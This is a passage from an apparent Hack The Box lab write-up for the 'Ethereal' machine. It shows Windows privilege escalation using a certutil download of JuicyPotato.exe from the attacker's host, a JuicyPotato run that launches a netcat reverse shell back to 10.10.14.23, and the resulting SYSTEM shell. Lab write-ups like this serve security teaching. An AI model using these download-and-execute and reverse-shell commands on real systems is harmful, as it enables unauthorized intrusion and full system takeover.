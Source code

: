 I used `Juicy Potato` from Decoder.

```bash
c:\windows\system32\inetsrv>cd \users\public 
cd \users\public

c:\Users\Public>cmd /c certutil.exe -urlcache -split -f http://10.10.14.23:73/JuicyPotato.exe JuicyPotato.exe

10/10/2018  02:40 AM    <DIR>          .
10/10/2018  02:40 AM    <DIR>          ..
06/25/2018  03:51 PM    <DIR>          Documents
07/03/2018  10:25 PM    <DIR>          Downloads
10/10/2018  02:40 AM           347,648 JuicyPotato.exe
07/16/2016  02:23 PM    <DIR>          Music
07/16/2016  02:23 PM    <DIR>          Pictures
07/16/2016  02:23 PM    <DIR>          Videos
```

Execute it, `spawning` yet another `netcat`

```bash
c:\Users\Public>JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 73" -t *
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 73" -t *                                                                                
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```

We got a shell as `nt authority\system`!

```bash
root@kali:~/hackthebox/Machines/Ethereal# nc -lvnp 73
listening on [any] 73 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.106] 49877
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Strange... we don't have read access to the flags even though we are `SYSTEM`
